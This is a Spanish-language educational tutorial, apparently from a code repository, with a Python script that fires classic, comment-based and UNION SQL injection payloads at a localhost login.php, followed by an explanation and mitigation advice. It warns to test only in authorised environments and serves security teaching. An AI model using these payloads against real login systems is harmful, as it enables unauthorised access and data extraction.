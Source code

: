 # **Ataque de inyección SQL**

Es importante tener en cuenta que este tipo de ejercicio se debe realizar en un entorno controlado y únicamente con fines educativos y de prueba de seguridad, nunca en sistemas de producción o sin la autorización adecuada.

## Advertencia

**Este código es solo para fines educativos en un entorno controlado. Nunca lo utilices en sistemas que no te pertenecen o sin autorización expresa. La inyección SQL es una práctica maliciosa que puede causar daños graves a los sistemas y es ilegal cuando se utiliza en sistemas ajenos.**

## Configuración Previa

Antes de ejecutar el script, asegúrate de tener un entorno de prueba configurado con el código PHP proporcionado y una base de datos MySQL.

### 1. Instalación de Librerías Necesarias

Necesitarás instalar la librería `requests` para realizar las solicitudes HTTP desde Python. Puedes instalarla con el siguiente comando:

```python
pip install requests
```

### 2. Script Python para Realizar Ataques de Inyección SQL

```python
import requests

# URL del script de login.php
url = 'http://localhost/sistema_login/login.php'

# Diccionario para almacenar los resultados de las pruebas
results = {}

# Función para realizar la solicitud POST
def post_request(data):
    try:
        response = requests.post(url, data=data)
        return response.text
    except requests.exceptions.RequestException as e:
        return str(e)

# Técnica 1: Inyección SQL Clásica
def sql_injection_classic():
    payload = "' OR '1'='1"
    data = {
        'nombre_usuario': payload,
        'password': payload
    }
    response = post_request(data)
    results['SQL Injection Clásica'] = response
    return response

# Técnica 2: Inyección SQL con Comentarios
def sql_injection_comments():
    payload = "' OR '1'='1' -- "
    data = {
        'nombre_usuario': payload,
        'password': 'any_password'
    }
    response = post_request(data)
    results['SQL Injection con Comentarios'] = response
    return response

# Técnica 3: Inyección SQL de Unión (UNION)
def sql_injection_union():
    payload = "' UNION SELECT 1,2,3 -- "
    data = {
        'nombre_usuario': payload,
        'password': 'any_password'
    }
    response = post_request(data)
    results['SQL Injection UNION'] = response
    return response

# Ejecutar las pruebas
if __name__ == "__main__":
    print("Realizando ataques de inyección SQL...\n")
    
    print("1. SQL Injection Clásica...")
    print(sql_injection_classic())
    
    print("\n2. SQL Injection con Comentarios...")
    print(sql_injection_comments())
    
    print("\n3. SQL Injection UNION...")
    print(sql_injection_union())
    
    # Guardar resultados en un archivo para su análisis
    with open('sql_injection_results.txt', 'w') as f:
        for technique, result in results.items():
            f.write(f"{technique}:\n{result}\n\n")
    
    print("\nResultados guardados en 'sql_injection_results.txt'.")
```

### Explicación del Código

1. **Librerías Utilizadas**:
   - `requests`: Utilizada para realizar solicitudes HTTP a la página de `login.php` del sistema vulnerable.
2. **Funciones de Inyección SQL**:
   - **`sql_injection_classic()`**: Realiza una inyección SQL clásica utilizando `' OR '1'='1'`. Este payload intenta manipular la consulta SQL para que siempre sea verdadera, permitiendo un inicio de sesión sin credenciales válidas.
   - **`sql_injection_comments()`**: Utiliza comentarios (`--`) para ignorar el resto de la consulta SQL, lo que permite omitir la parte de la contraseña.
   - **`sql_injection_union()`**: Intenta utilizar la técnica UNION para combinar los resultados de una segunda consulta con la original. Este payload es más avanzado y puede usarse para extraer información adicional.
3. **Función `post_request(data)`**:
   - Esta función toma un diccionario `data` con los datos del formulario (nombre de usuario y contraseña) y realiza una solicitud POST al script `login.php`.
4. **Ejecución y Resultados**:
   - Cada técnica de inyección SQL se ejecuta y el resultado se almacena en el diccionario `results`.
   - Los resultados de las pruebas se guardan en un archivo `sql_injection_results.txt` para su posterior análisis.

### 3. Ejecución del Script

Puedes ejecutar el script en un entorno Python con:

```bash
python sql_injection_test.py
```

### 4. Interpretación de Resultados

Después de ejecutar el script:

- **SQL Injection Clásica**: Si la inyección es exitosa, el sistema debería permitir el inicio de sesión sin credenciales válidas.
- **SQL Injection con Comentarios**: Similar a la clásica, pero utilizando comentarios para truncar la consulta.
- **SQL Injection UNION**: Intentará extraer información adicional usando la cláusula UNION.

### 5. Mitigación de Vulnerabilidades

Para evitar que un sistema sea vulnerable a estos ataques, se deben seguir las mejores prácticas de seguridad:

- **Usar Sentencias Preparadas (Prepared Statements)**: Esto separa los datos del código SQL, previniendo la inyección.
- **Validar y Sanitizar Entradas**: Asegúrate de que todos los datos de entrada sean validados y sanitizados adecuadamente.
- **Principio de Menor Privilegio**: Configura los permisos de la base de datos para limitar el acceso de las cuentas de usuario solo a lo necesario.